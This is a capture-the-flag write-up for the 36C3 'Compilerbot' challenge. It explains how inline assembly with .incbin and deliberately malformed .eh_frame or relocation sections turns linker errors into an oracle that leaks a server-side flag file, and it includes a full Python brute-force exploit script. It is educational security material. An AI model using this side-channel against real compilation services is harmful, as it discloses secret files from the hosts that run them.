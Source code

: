 ```yaml
---
title: 36C3 CTF - Compilerbot
authors: Ryan Govostes (rgov)
date: 2019-12-28
categories: misc
---
```



The server for this challenge accepts C source code and compiles it into an executable using Clang. The code is stripped of curly braces and `#` characters and inserted into a simple template:

```c
int main(void) {
    /* code */
}
```

The executable is never run, but the server responds with whether the compilation was successful and produced no warnings. This can serve as an oracle: we might be able guess part of the flag, and make the compilation fail or emit a warning if our guess is incorrect.

We can throw out any approach that involves `#include "flag"` because the flag is likely not valid C code, and you [cannot abuse the preprocessor to create a string from the contents of a file](https://stackoverflow.com/questions/1246301/c-c-can-you-include-a-file-into-a-string-literal).

A better starting point is to use inline assembly and the the [`.incbin`](https://sourceware.org/binutils/docs/as/Incbin.html#Incbin) assembler directive, which includes the given file, or a portion of it, verbatim in the binary. (We first learned about this from write-ups of the [Oneline Calc](https://ctftime.org/task/9149) challenge from TokyoWesterns CTF 2019.)

When we use `.incbin`, the file contents are not embedded until the assembler stage, so we aren't going to be able to trigger an error dependent on the content of the flag before this stage (or during it).

The last stage, linking, follows the assembler. It transforms the object file produced by the assembler into an executable. This is the stage we should target: we want to produce an object file that the linker either accepts or rejects based on the contents of the flag.

To do this, we need to look at structures in the object file that the linker uses. There are a number of special sections (see [`elf(5)`](http://man7.org/linux/man-pages/man5/elf.5.html), under "Section header") which hold control information used by the linker; if one of these sections is invalid, it may cause a linker error.

For example, the GNU `ld` linker creates a lookup table from [`.eh_frame`](https://refspecs.linuxfoundation.org/LSB_3.0.0/LSB-PDA/LSB-PDA/ehframechpt.html) sections, and if one of them is not correctly formed, the table generation will fail. We can create a valid section manually with inline assembly:

```c
// create a dummy a Call Frame Information record 
__asm__(
    ".pushsection .eh_frame\n"

    // length of CIE record
    ".long 0x0000000D\n"

    // CIE fields
    ".long 0x00000000\n"
    ".byte 0x01\n"
    ".asciz \"zR\"\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"

    ".popsection\n"
);
```

Since the record contains a length field, we could corrupt the `.eh_frame` by providing a length that is too long or too short, causing the linker to read garbage when it scans the next record. For instance, we could read one byte of the flag file into the least-significant byte of the record length:

```c
    // length of CIE record
    ".incbin \"flag\", 0, 1\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
```

If the first byte of the flag has value 13 (carriage return), then the record length is correct and there will be no linker error. But for any other value, we get:

    /usr/bin/ld: error in /tmp/test-a17b24.o(.eh_frame); no .eh_frame_hdr table will be created

(Note that the compilation technically succeeds but the challenge server considers any message written to standard error as a failure.)

This can be used as our oracle. To test if the first byte is some value *other* than 13, we just need to pad the end of the struct:

```c
    // pad extra bytes; linking will succeed if the first byte of the flag
    // is 97 (ASCII 'a')
    ".rept 97 - 13\n"
    ".byte 0\n"
    ".endr\n"
```

Now we can adjust the amount of padding to change the record size until the linker stops complaining, which indicates that the record size is consistent with its length field, and therefore that the record size equals the value of the first byte of the flag.

This can be repeated for the next byte until the entire flag is recovered.


## Exploit

Thanks to Sophia d'Antoine for fixing an oversight in my exploit code.

```python
#!/usr/bin/env python
import subprocess


payload = r'''
__asm__ (
    ".pushsection .eh_frame\n"

    // length of CIE record, using one byte from flag
    // length must be at least 13
    ".incbin \"flag\", __OFFSET__, 1\n"
    ".rept 3\n"
    ".byte 0\n"
    ".endr\n"

    // 13 bytes of CIE record junk
    // http://refspecs.linuxfoundation.org/LSB_3.0.0/LSB-Core-generic/LSB-Core-generic/ehframechpt.html
    ".long 0x00000000\n"
    ".byte 0x01\n"
    ".asciz \"zR\"\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"

    ".rept __GUESS__ - 13\n"
    ".byte 0\n"
    ".endr\n"

    ".popsection\n"
);
'''


# this runs the compiler locally, running against the challenge server is left
# as an exercise to the reader
def try_compile(code):
    code = 'int main(void) { ' + code + ' }'
    sub = subprocess.Popen(['clang', '-x', 'c', '-o', '/dev/null', '-'],
                           stdin=subprocess.PIPE,
                           stdout=subprocess.PIPE,
                           stderr=subprocess.STDOUT)
    stdout, _ = sub.communicate(code)
    return sub.returncode == 0 and stdout.strip() == ''


# test first
code = payload
code = code.replace(r'".incbin \"flag\", __OFFSET__, 1\n"',
                    r'".byte 0x20\n"')
code = code.replace('__GUESS__', '0x20')
assert try_compile(code)


# recover the flag
flag = ''
for flag_offset in range(32):
    for guess in range(0x20, 0x7f):
        code = payload
        code = code.replace('__GUESS__', str(guess))
        code = code.replace('__OFFSET__', str(flag_offset))
        if try_compile(code):
            flag += chr(guess)
            break
    else:
        # no guess worked, maybe end of the flag
        break

print('flag is', flag)
```


## Bonus 

Due to an oversight, I initially implemented this exploit against GCC and found a slightly different oracle:

I created a dummy section of a certain number of bytes, and a [relocation entry](https://refspecs.linuxbase.org/elf/gabi4+/ch4.reloc.html) that would increment the byte at a given offset.

GCC, but not Clang, will apply the relocation by the time the final executable is linked. (If you can make this work with Clang, please let me know.)

If the relocation entry's offset is beyond the bounds of the dummy section, the linker complains:

    /usr/bin/ld: /tmp/ccQDGoK1.o(.foo+0x10): reloc against `*UND*': error 4
    /usr/bin/ld: final link failed: nonrepresentable section on output
    collect2: error: ld returned 1 exit status

We can apply the same general idea as above: use `.incbin` to read a byte of the flag into the relocation entry's offset, and adjust the size of the dummy section according to our guess.

```c
__asm__ (
    // create a section of N bytes
    ".pushsection .foo\n"
    ".rept 97\n"
    ".byte 0xFF\n"
    ".endr\n"
    ".popsection\n"
    
    // create a relocation that tries to modify our section at some offset
    // based on a single byte of the flag; if it is out of bounds then the
    // linker will error
    ".pushsection .rela.foo\n"
    ".align 1\n"

    // offset into .foo -- must not overflow !
    ".incbin \"flag\", 0, 1\n"
    ".rept 7\n"
    ".byte 0\n"
    ".endr\n"

    ".quad 0x000000000000000E\n" // type of reloc: R_X86_64_8
    ".quad 0x0000000000000001\n" // value to add at that offset
    ".popsection\n"
);
```
